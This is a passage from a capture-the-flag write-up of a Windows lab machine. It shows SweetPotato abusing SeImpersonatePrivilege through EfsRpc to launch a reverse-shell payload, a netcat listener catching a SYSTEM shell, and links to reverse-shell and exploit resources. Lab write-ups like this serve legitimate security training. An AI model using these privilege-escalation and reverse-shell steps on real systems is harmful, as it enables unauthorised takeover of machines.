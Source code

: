 Now that everything is set up, we'll run `SweetPotato` and point it to execute `PowerShell` on an evil-named pipe that points to our reverse shell.

```
PS C:\temp> .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a 'C:\temp\daz.exe' -e EfsRpc
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method EfsRpc to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering name pipe access on evil PIPE \\localhost/pipe/cb0eb314-002c-4c3d-9139-361e75c14e29/\cb0eb314-002c-4c3d-9139-361e75c14e29\cb0eb314-002c-4c3d-9139-361e75c14e29
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```

If we look back at our third netcat listener, we'll see that a successful session was spawned as `SYSTEM`.

```
└─$ nc -lvnp 9003               
listening on [any] 9003 ...
connect to [10.8.0.173] from (UNKNOWN) [10.10.105.93] 53394
Microsoft Windows [Version 10.0.20348.350]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Now that we have a shell as `SYSTEM`, we have successfully compromised this machine and can read the root flag underneath `C:\Users\Administrator\Desktop\root.txt`!

# Conclusion

This box tested some knowledge of previous machines that I had done before, notably `SeImpersonatePrivilege` along with IIS exploitation through ASPX reverse shells. The LibreOffice exploitation was new, however I have set up VBA macros in the past so it was helpful to strengthen those skills.

Big thanks to xct for the development of this machine.

# Resources

https://www.libreoffice.org/get-help/install-howto/
https://ask.libreoffice.org/t/how-to-use-shell-from-basic-macro-solved/23590
https://www.revshells.com/
https://github.com/CCob/SweetPotato